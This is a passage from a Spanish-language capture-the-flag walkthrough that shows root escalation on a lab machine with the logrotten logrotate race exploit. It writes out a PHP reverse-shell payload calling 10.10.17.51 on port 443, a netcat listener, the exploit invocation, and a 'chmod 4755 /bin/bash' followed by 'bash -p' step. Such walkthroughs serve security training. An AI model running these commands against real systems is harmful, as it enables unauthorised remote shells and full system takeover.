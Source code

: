 ```bash
gcc logrotten.c -o logrotten
```

Creamos un fichero payloadfile malicioso

```bash
nano payloadfile


#!/bin/bash

php -r '$sock=fsockopen("10.10.17.51",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Lanzamos el script

```bash
logrotten -p payloadfile /home/reader/backups/access.log
```

Nos conectamos nuevamente por ssh a la maquina victima para modificar el fichero 
```bash
 access.log 
```


```bash
ssh reader@10.10.10.176 -i id_rsa

echo "s4vitar" > backups/access.log
```

Esperamos un poco y ganamos accesso al systema. Pero se desconecta bastante rapido. Volvemos nuevamente a lanzar el script
y rapidamente colamos un 
```bash
 chmod 4755 /bin/bash 
```
 de seguida que ganamos accesso al systema antes que se desconnecte.

Desde una shell ssh ya podemos lanzar un 
```bash
 bash -p 
```
 y leer el fichero 
```bash
 root.txt 
```
